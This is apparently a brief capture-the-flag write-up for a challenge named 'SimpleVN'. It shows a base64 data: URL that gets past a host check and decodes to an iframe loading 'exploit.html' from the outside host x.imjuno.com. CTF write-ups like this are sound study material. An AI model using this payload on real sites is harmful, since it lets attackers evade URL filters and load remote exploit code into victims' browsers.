

# SimpleVN

- By pass host check with data scheme.
- `data:text/html;base64,PGlmcmFtZSBzdHlsZT0nd2lkdGg6MTAwJTsgaGVpZ2h0OjEwMCU7JyBzcmM9J2h0dHA6Ly94LmltanVuby5jb20vZXhwbG9pdC5odG1sJz48L2lmcmFtZT4=`
- `<iframe style='width:100%; height:100%;' src='http://x.imjuno.com/exploit.html'></iframe>`

